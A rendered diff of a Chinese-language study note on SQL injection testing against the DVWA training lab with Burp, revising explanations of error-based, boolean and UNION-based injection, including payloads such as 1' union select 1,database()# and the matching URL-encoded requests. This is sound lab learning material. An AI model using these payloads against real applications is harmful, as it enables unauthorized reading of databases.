

Before and after one commit to helihai375-coder/new-project, a Markdown page: docs/dvwa/dvwa-burp-sqli-notes.md, 2 parts joined by grey strips. Shown at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/dvwa/dvwa-burp-sqli-notes.md
+++ b/docs/dvwa/dvwa-burp-sqli-notes.md
@@ -97,11 +132,13 @@ First name: admin
 Surname: admin
 ```
 
-这个正常结果作为后续测试的基准响应。
+说明：这个正常结果是后续测试的基准响应，用来对比 Payload 触发后的页面差异。
 
-## 3. SQL 注入报错测试
+## SQL 注入报错测试
 
-测试 Payload：
+核心理解：如果单引号破坏了后端 SQL 语句结构，并让页面返回数据库语法错误，说明用户输入很可能被拼接进 SQL 查询中。
+
+Payload：
 
 ```text
 1'
@@ -119,23 +156,30 @@ URL 编码后：
 GET /vulnerabilities/sqli/?id=1%27&Submit=Submit HTTP/1.1
 ```
 
-返回结果：
+成功现象：
 
 ```text
 You have an error in your SQL syntax
 ```
 
-含义：单引号破坏了后端 SQL 语句结构，说明 `id` 参数被拼接进了 SQL 查询中。
+说明：`id` 参数可能存在 SQL 注入风险。
 
-结论：`id` 参数可能存在 SQL 注入风险。
-
-## 4. 布尔条件 SQL 注入测试
-
-测试名称：
+证据链：
 
 ```text
-Boolean-based SQL Injection Test
+输入 1
+-> 页面返回 ID 为 1 的用户
+
+输入 1'
+-> 页面返回 SQL 语法错误
+
+对比两个响应
+-> 单引号影响了后端 SQL 查询结构
 ```
+
+## Boolean-based SQL Injection
+
+核心理解：通过 true / false 条件对比页面响应差异，判断参数是否可以控制 SQL 查询结果。
 
 ### 永真条件测试
 
@@ -320,20 +382,25 @@ GET /vulnerabilities/sqli/?id=1%27%20union%20select%201,version()%23&Submit=Subm
 
 预期结果：页面中显示 MySQL / MariaDB 版本信息。
 
-### 当前阶段结论
+### 判断链
 
-已经完成：
+```text
+order by 3 报错
+-> 字段数量为 2
 
-- 报错测试
-- 布尔条件测试
-- `ORDER BY` 字段数判断
-- `UNION` 联合查询测试
-- `database()` 数据库名读取测试
-- `version()` 数据库版本读取测试
+1' union select 1,2#
+-> 页面回显 1 和 2
 
-可以确认：DVWA Low 级别 SQL Injection 模块中的 `id` 参数存在 SQL 注入漏洞，并支持 `UNION` 联合查询注入。
+1' union select 1,database()#
+-> 页面显示数据库名
 
-## 7. 常见错误总结
+1' union select 1,version()#
+-> 页面显示数据库版本
+```
+
+结论：DVWA Low 级别 SQL Injection 模块中的 `id` 参数存在 SQL 注入漏洞，并支持 `UNION` 联合查询注入。
+
+## 常见错误总结
 
 ### 400 Bad Request
 
````
Also changed, not shown: other parts of docs/dvwa/dvwa-burp-sqli-notes.md (+144 -26 lines).
